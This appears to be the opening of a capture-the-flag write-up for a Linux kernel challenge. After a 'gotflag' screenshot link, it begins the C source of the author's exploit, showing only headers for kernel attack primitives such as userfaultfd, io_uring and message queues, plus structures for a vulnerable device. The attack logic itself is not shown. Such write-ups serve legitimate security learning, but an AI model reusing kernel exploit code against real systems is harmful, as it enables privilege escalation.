 ![gotflag](./pics/gotflag.png)

Here is the working.exploit source code:

```c
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <mqueue.h>
#include <linux/io_uring.h>
#include <linux/keyctl.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <linux/userfaultfd.h>
#include <linux/netlink.h>
#include <arpa/inet.h>

#define TOTAL_BANKS 16

struct fatptr {
	void *data;
	size_t size;
};

struct args_create { size_t size; };
struct args_switch { long index;  };

int devfd;

#define DUMPSIZE 1024
```